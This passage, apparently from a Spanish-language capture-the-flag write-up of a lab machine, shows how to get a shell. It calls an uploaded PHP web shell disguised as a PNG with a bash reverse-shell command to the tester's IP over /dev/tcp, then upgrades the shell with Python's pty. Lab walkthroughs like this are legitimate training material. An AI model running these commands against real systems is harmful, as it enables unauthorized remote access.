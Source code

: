 >De esta manera nos ahorramos ver todo el texto de la imagen y vemos directamente la respuesta de los comandos


### Mandamos una shell a nuestra IP

Nos ponemos en escucha por el puerto 443 

![[Pasted image 20250619162146.png]](Networked_images/20250619162146.png)

Desde la web mandamos la shell

```html
10.129.233.150/uploads/10_10_14_49.php.png?cmd=bash -c "bash -i %26> /dev/tcp/10.10.14.49/443 0>%261"
```

![[Pasted image 20250619162304.png]](Networked_images/20250619162304.png)

#### una vez recibimos la shell la tratamos con python 
![[Pasted image 20250619162509.png]](Networked_images/20250619162509.png)
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
